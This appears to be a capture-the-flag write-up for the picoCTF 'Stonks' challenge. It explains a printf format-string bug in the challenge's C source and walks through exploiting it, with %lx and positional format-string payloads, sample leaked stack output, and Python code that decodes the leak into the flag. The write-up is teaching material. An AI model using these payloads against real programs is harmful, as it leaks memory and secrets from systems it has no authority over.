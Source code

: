 ## PicoCTF: Stonks

[Original challenge *(requires login)*](https://play.picoctf.org/practice/challenge/105)

### Finding the vulnerability

I knew going into this that the vulnerability would be a `printf` format string-related one, which is pretty familiar territory for me.
When I set up my environment for the challenge, this was confirmed:

```
; gcc -Wall -Wextra vuln.c -o vuln.exe
stonks/vuln.c: In function ‘buy_stonks’:
stonks/vuln.c:93:2: warning: format not a string literal and no format arguments [-Wformat-security]
   93 |  printf(user_buf);
      |  ^~~~~~
# (omitted some unused variable warnings)
```

Just goes to show: Always compile with warnings.
It could have saved this dev from making this mistake.

It also saved *me* from having to dig for the vulnerable line, since it's... right there.
A very quick check shows that it's user input from when you're prompted to enter your API token:

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

The way this vulnerability is gonna work is pretty simple:
Because they called `printf` with *our input* as the format string, we can slide some `%lx`s in there.
Arguments to variadic functions like `printf` are passed on the stack, so any format specifiers we put in there will read data off the stack, and conveniently, that's where the flag is sitting:

```c
// FLAG_BUFFER == 128
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
  printf("Flag file not found. Contact an admin.\n");
  exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```

So it's just a matter of finding the right offset to start at, dumping enough to cover the length of the flag, and then parsing it.
Finding the offset is a bit tedious, but by putting a [de Bruijn](https://en.wikipedia.org/wiki/De_Bruijn_sequence) sequence in the flag file, it's pretty simple:

```py3
from pwn import *
cyclic_gen(string.digits).get(128)
# => '00001000200030004000500060007000800090011001200130014001500160017001800190021002200230024002500260027002800290031003200330034003'
```

Notice I picked `string.digits`: I'm gonna be looking at hex, and the byte value for each digit is just `0x30` plus that digit, which makes it easier to read.

### Testing and building

So now we build a format string.
I'm going to be using `%lx`, printing out `long`s as hex, and I'm gonna use 20, separated by `.`.
You could also do 20 `%016lx`; I just prefer the dots because I find it easier to reason about endianness if I can clearly see the chunks delimited.
Note the `l` in both, though: On my system, all arguments are treated as at least 8 bytes wide, and `%x` only prints out the last 4 of those bytes.
That's part of why I picked a de Bruijn sequence; it's long enough to fill up a lot of space while still being pretty easy to tell if anything is missing.

When we pass in the format string, we get out:

```
What is your API token?
%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx
Buying stonks with token:
7fe6f1a9b723.0.7fe6f19c01e7.1a.7fffffff.7ffcf52f0a40.556f3c9ac2a0.200000000.556f3c9ac6d0.556f3c9ad9e0.556f3c9ada00.3030303130303030.3030303330303032.3030303530303034.3030303730303036.3130303930303038.3130303231303031.3130303431303033.3130303631303035.3130303831303037
```

And we see, starting at 'argument' 12, our de Bruijn sequence: `3030303130303030` is `00010000`, which is the first eight bytes backwards.

### Cleaning it up

Now that we have our offsets, we can use a less brute-force approach and target the exact indices we actually want:

```py3
# flag is max. 128 bytes long, %lx prints 8 bytes per format specifier
'.'.join(f'%{i}$lx' for i in range(12, 12 + (128//8)))
# => %12$lx.%13$lx.%14$lx.%15$lx.%16$lx.%17$lx.%18$lx.%19$lx
```

The `%n$` syntax is a non-standard extension, but the server supports it, so it's fair game.
It lets us get an argument by index, rather than having to go through all of the arguments before it, and it makes parsing the output just a little easier.
It's not necessary, though, if your target doesn't support it.

```
What is your API token?
%12$lx.%13$lx.%14$lx.%15$lx.%16$lx.%17$lx.%18$lx.%19$lx
Buying stonks with token:
3030303130303030.3030303330303032.3030303530303034.3030303730303036.3130303930303038.3130303231303031.3130303431303033.3130303631303035
```

This output is pretty simple to parse:

```py3
resp = # ...
chunks = resp.split(b'.')
nums = (int(c, 16) for c in chunks)
byteses = (i.to_bytes(8, 'little') for i in nums)
flag_bytes = b''.join(byteses)[:MAX_FLAG]
flag = flag_bytes.decode('utf-8')
```

In order, that:

- Splits our period-separated chunks into just the chunks
- Parses each as an integer
- Converts that integer to little-endian bytes (this may need to be tweaked to work when running locally)
- Joins all the chunks of bytes together
- Converts that to text

Which gets us our flag!
It could also have been a "one-liner", but I chose to break it into small steps to make it easier to see, step by step, what was going on.

My [actual solution](./crack.py) has some extra bits to be self-contained; as long as you have a C compiler on your system accessible as `cc` -- which, after installing any C compiler on a Linux system, you should -- it'll compile `vuln.c`, copy your flag file next to it, and run it, all on its own.
It also of course includes the machinery to dump the stack on its own.
It *also* includes some extra machinery to handle the differences between my local machine and the server, trim the flag at the first null, etc.
But the bulk of the work, the actual reverse-engineering and exploitation, is what I've described in this post.

